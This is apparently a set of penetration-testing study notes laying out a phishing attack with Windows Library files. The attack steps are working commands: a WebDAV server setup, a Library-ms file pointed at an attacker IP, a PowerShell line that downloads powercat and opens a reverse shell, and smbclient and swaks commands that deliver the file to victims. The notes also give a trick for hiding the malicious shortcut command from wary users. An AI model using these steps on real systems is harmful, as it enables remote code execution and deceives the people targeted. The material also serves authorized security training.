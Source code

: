 # Windows Library Files

1. Start WebDAV server

```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

2. Use vscode and anme name it `config.Library-ms`
3. Paste the code and chagne the url to attacker IP

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://CHANGEME</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

4. Use this comand to get and execute powercat reverse shell by creating Shortcut file with name `automatic_configuration`

```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
powercat -c 192.168.119.3 -p 4444 -e powershell"
```

> If we expect that our victims are tech-savvy enough to actually check where the shortcut files are pointing, we can use a handy trick. Since our provided command looks very suspicious, we could just put a delimiter and benign command behind it to push the malicious command out of the visible area in the file's property menu. If a user were to check the shortcut, they would only see the benign command.

5. On our Kali machine, let's start a Python3 web server on port 8000 where powercat.ps1 is located and start a Netcat listener on port 4444.

> Instead of using a Python3 web server to serve Powercat, we could also host it on the WebDAV share. However, as our WebDAV share is writable, AV and other security solutions could remove or quarantine our payload. If we configure the WebDAV share as read-only, we'd lose a great method of transferring files from target systems. Throughout this course, we'll use a Python3 web server to serve our payload for attacks utilizing Windows Library files.

6. To make it seems genuine we can write something to make the user click the file.
7. Transfer through SMBclient

```
smbclient //192.168.50.195/share -c 'put config.Library-ms'
```

Send through SMTP or Mail using \[\[Swaks]]

```
swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -ap --attach @config.Library-ms --server 192.168.234.199 --body body.txt --header "Subject: Problems" --suppress-data
```

